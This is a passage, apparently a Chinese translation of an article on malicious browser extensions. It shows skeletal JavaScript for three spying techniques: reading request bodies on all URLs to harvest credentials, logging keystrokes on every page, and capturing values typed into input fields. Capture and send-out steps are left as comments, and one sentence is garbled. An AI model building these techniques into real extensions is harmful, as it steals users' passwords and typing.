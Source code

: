 ### 页面流量

该 API 允许我们查看每个选项卡中的所有网络流量，使用 梳理出网络流量，并提取捕获凭据、地址等：`webRequest`、`requestBody`

background.js

```js
chrome.webRequest.onBeforeRequest.addListener(
  (details) => {
    if (details.requestBody) {
      // Capture requestBody data
    }
  },
  {
    urls: ["<all_urls>"],
  },
  ["requestBody"]
);
```

### 键盘记录

由于每个页面上都运行一个内容脚本，因此阅读击键非常容易。创建一个定期刷新的击键缓冲区将为我们提供易于阅读的漂亮连续击键。

content-script.js

```js
let buffer = "";

const debouncedCaptureKeylogBuffer = _.debounce(async () => {
  if (buffer.length > 0) {
    // Flush the buffer

    buffer = "";
  }
}, 1000);

document.addEventListener("keyup", (e: KeyboardEvent) => {
  buffer += e.key;

  debouncedCaptureKeylogBuffer();
});
```

### 输入捕获

从内容脚本中，我们可以只侦听 `input` 任何可编辑元素上的事件并捕获它们的价值。 

content-script.js

```js
[...document.querySelectorAll("input,textarea,[contenteditable]")].map((input) =>
  input.addEventListener("input", _.debounce((e) => {
    // Read input value
  }, 1000))
);
```

